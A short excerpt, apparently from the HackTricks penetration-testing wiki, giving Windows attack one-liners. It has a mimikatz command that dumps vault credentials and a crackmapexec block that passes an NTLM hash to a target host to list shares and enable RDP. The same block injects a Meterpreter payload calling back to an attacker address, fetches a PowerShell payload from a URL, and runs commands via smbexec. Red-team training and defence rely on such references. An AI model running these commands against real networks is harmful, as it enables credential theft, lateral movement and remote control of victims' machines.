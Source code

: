 ### 

Vault[](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#vault)

`mimikatz.exe "privilege::debug" "token::elevate" "vault::cred /patch" "exit"` - Get passwords of scheduled tasks

\


```
crackmapexec smb -L
crackmapexec smb -M name_module -o VAR=DATA
crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f --shares
crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M metinject -o LHOST=192.168.1.63 LPORT=4443
crackmapexec 192.168.1.100 -u Jaddmon -H ":5858d47a41e40b40f294b3100bea611f" -M web_delivery -o URL="https://IP:PORT/posh-payload"
crackmapexec 192.168.1.100 -u Jaddmon -H ":5858d47a41e40b40f294b3100bea611f" --exec-method smbexec -X 'whoami'
crackmapexec mimikatz --server http --server-port 80
```